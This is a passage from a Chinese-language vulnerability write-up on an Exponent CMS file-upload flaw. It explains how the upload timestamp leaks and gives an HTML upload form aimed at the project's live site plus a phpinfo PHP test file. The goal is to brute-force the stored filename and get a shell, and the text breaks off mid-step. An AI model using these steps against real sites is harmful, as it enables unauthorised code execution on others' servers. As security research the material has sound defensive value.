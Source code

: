很显然，’.net’并不能与之相匹配，所以就抛出了一个错误。

导致程序的终止运行，也导致了程序的文件删除操作无法执行。

但是我们开始说了文件名的命名规则是time()+’_’+文件名。

那么我们如何知道time()呢？

在/framework/modules/ecommerce/controllers/eventregistrationController.php中第129行：



```
function eventsCalendar() `{`
        global $user;
 
        expHistory::set('viewable', $this-&gt;params);
 
        $time = isset($this-&gt;params['time']) ? $this-&gt;params['time'] : time();
        assign_to_template(array(
            'time' =&gt; $time
        ));
```

这里直接将time()打印到了网站源码里，我们可以从这个地方得到一个大概的time值，然后便可以进行一个爆破文件名的操作，这样我们就能够getshell。

漏洞利用：

以程序官网为例

构造一个上传表单:

```
&lt;html&gt;
&lt;body&gt;
&lt;form
action="http://www.exponentcms.org/index.php?module=eventregistration&amp;action=emailRegistrants&amp;email_addresses=123456789@123.com&amp;email_message=1&amp;email_subject=1" method="post"
enctype="multipart/form-data"&gt;
&lt;label for="file"&gt;Filename:&lt;/label&gt;
&lt;input type="file" name="attach" id="file" /&gt;
&lt;br /&gt;
&lt;input type="submit" name="submit" value="Submit" /&gt;
&lt;/form&gt;
&lt;/body&gt;
&lt;/html&gt;
```

然后选择我们的php文件，文件名为index.php：

```
&lt;?php phpinfo();?&gt;
```

然后点击上传之后，可以看到报错了:

[![](https://p2.ssl.qhimg.com/t01ffca3b76887a4bd4.png)](https://p2.ssl.qhimg.com/t01ffca3b76887a4bd4.png)

这个时候我们紧接着快速的访问
